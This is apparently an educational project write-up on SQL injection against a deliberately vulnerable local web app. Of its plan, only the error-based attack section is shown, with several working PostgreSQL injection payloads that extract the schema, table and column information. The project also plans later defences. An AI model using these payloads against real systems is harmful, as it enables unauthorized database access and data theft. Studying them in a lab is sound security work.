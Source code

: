 ## Overview 
- To have a deeper understanding of how SQL injection works, we will host a web application that is vulnerable to SQLi then we will apply 3 types of attacks: error-based sql injection, time-based injection and data extraction with DNS. After finished demonstrating the impact of the attack, we will patch these vulnerabilities with some secure methods for example parameterized queries, sanitize input, least privilege, etc. We will divide our project into 2 parts:
    - Part 1: Deploy attack vector
    - Part 2: Apply the defencing mechanism

### Part 1: Deploy attack vector
![](https://i.imgur.com/0t5dwUR.png)
- All sql injection types maybe use a different way to extract data. However, they all follow this attacking model.
### Error-based SQL injection
- The basic mechanism of Error-based SQL injection triggers an error in which the error notification shows more information then it needs to, and from there sql injection happened. To have a deeper demonstration of this attack we will use sqlmap to perform exploitation and let this packet running through a proxy to analyze traffic.
- ![](https://i.imgur.com/U8HNM6z.png)

- for example:
    - Query: `http://localhost/ATM_Project/getProduct.php?productId=1 AND 8311=CAST((CHR(113)||CHR(113)||CHR(98)||CHR(120)||CHR(113))||(SELECT%20brand from products WHERE id=1)||(CHR(113)||CHR(120)||CHR(122)||CHR(107)||CHR(113)) AS NUMERIC) --`
    - Result: ![](https://i.imgur.com/3pHoRDx.png)
- In this section, we will demonstrate how mentioned the attack model works with error-based SQL injection.
    - Step 1: Getting schema
        - We exploit error-based vulnerability with CURRENT_SCHEMA function(Note that all the qqbx and qxzkq cover around information that leak is there for programming purpose).
        - Query: `AND 5838=CAST((CHR(113)||CHR(113)||CHR(98)||CHR(120)||CHR(113))||(COALESCE(CAST(CURRENT_SCHEMA() AS VARCHAR(10000))::text,(CHR(32))))::text||(CHR(113)||CHR(120)||CHR(122)||CHR(107)||CHR(113)) AS NUMERIC)`
        - Result:![](https://i.imgur.com/2vdNoFC.png)
    - Step 2: Getting the table
        - We will find out the number of table that exist in this schema by counting the tablename value.
            - Query: `1 AND 7321=CAST((CHR(113)||CHR(113)||CHR(98)||CHR(120)||CHR(113))||(SELECT COALESCE(CAST(COUNT(tablename) AS VARCHAR(10000))::text,(CHR(32))) FROM pg_tables WHERE schemaname IN ((CHR(112)||CHR(117)||CHR(98)||CHR(108)||CHR(105)||CHR(99))))::text||(CHR(113)||CHR(120)||CHR(122)||CHR(107)||CHR(113)) AS NUMERIC)`
            - Result: ![](https://i.imgur.com/HQTz8FA.png)
 
        - After that, we will find out what is the name of the table by selecting tablename value from pgtables then using OFFSET LIMIT to get the first table.
            - Query: `1 AND 8791=CAST((CHR(113)||CHR(113)||CHR(98)||CHR(120)||CHR(113))||(SELECT COALESCE(CAST(tablename AS VARCHAR(10000))::text,(CHR(32))) FROM pg_tables WHERE schemaname IN ((CHR(112)||CHR(117)||CHR(98)||CHR(108)||CHR(105)||CHR(99))) OFFSET 0 LIMIT 1)::text||(CHR(113)||CHR(120)||CHR(122)||CHR(107)||CHR(113)) AS NUMERIC)`
            - Result:
             ![](https://i.imgur.com/5hpheWN.png)
    - Step 3: Getting column
        - We will get the number of column by count(*) with the condition on id and relname as table name and nspname as schema name.
            - Query: `1 AND 2067=CAST((CHR(113)||CHR(113)||CHR(98)||CHR(120)||CHR(113))||(SELECT COALESCE(CAST(COUNT(*) AS VARCHAR(10000))::text,(CHR(32))) FROM pg_attribute b JOIN pg_class a ON a.oid=b.attrelid JOIN pg_type c ON c.oid=b.atttypid JOIN pg_namespace d ON a.relnamespace=d.oid WHERE b.attnum>0 AND a.relname=(CHR(112)||CHR(114)||CHR(111)||CHR(100)||CHR(117)||CHR(99)||CHR(116)||CHR(115)) AND nspname=(CHR(112)||CHR(117)||CHR(98)||CHR(108)||CHR(105)||CHR(99)))::text||(CHR(113)||CHR(120)||CHR(122)||CHR(107)||CHR(113)) AS NUMERIC)`
            - Result: ![](https://i.imgur.com/MFIZILQ.png)
